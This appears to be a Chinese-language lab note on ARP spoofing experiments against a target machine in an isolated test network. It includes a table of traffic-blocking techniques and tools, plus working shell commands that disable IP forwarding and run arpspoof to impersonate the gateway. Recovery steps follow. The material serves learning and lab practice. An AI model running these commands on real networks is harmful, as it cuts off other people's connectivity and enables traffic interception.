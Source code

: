 # 实验效果
- [x]  阻断靶机上网（阻断到外网的流量）
- [x]  阻断靶机与物理机通信(靶机ping不通网关)
- [ ]  阻断靶机与攻击机通信
- [ ]  完全断开靶机网络（使其无法通信）
- [ ]  中间人监听后选择性阻塞某些请求（如网页访问）

| 阻断类型       | 影响范围    | 是否可上网 | 是否可局域网通信 | 实现难度 | 隐蔽性 | 典型工具                    |
| ---------- | ------- | ----- | -------- | ---- | --- | ----------------------- |
| 完全断开靶机网络   | 所有通信中断  | ❌     | ❌        | ⭐⭐⭐  | 低   | Yersinia, DHCPig        |
| 阻断靶机上网     | 仅外网中断   | ❌     | ✅        | ⭐⭐   | 中   | `arpspoof`, `dsniff`    |
| 阻断靶机与物理机通信 | 仅与物理机不通 | ✅     | ❌（对物理机）  | ⭐⭐   | 中   | `arpspoof`              |
| 阻断靶机与攻击机通信 | 仅与攻击机不通 | ✅     | ✅（其他）    | ⭐    | 高   | `iptables`, ARP 静默      |
| 选择性阻塞（如网页） | 特定服务被封  | ✅（部分） | ✅        | ⭐⭐⭐⭐ | 高   | `ettercap`, `mitmproxy` |
# 达到靶机ping不通网关
## 实验环境
攻击机 kali 192.168.94.155
靶机 fedora 192.168.94.147

kali 执行的命令
```shell
# 1. 查看自身网络配置
ip a

# 2. 关闭 IP 转发（实现阻塞）
echo [0]{0:靶机只是ping不通网关; 1:靶机不能访问外网} | sudo tee /proc/sys/net/ipv4/ip_forward
## 推荐写法
sudo sysctl net.ipv4.ip_forward=0

# 3. 开始 ARP 欺骗攻击
sudo arpspoof -i [eth0]{指定网卡} -t [192.168.94.147]{目标主机} [192.168.94.1]{伪装对象,将自己伪装成网关}

# 4. 另开终端：开始抓包
sudo tcpdump -i eth0 -w /tmp/arp_attack.pcap icmp or arp

# 5. 攻击结束后终止进程（Ctrl+C）
# 6. 可选：恢复 IP 转发
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
### 靶机ARP恢复
[[ARP| arp命令]]
```shell
# 刷新arp表
sudo ip neigh flush dev <network card>

# 手动删除,攻击机的MAC地址
arp -d <攻击机的IP地址>
 
```

# 单词
card : 卡
spoof: 恶搞
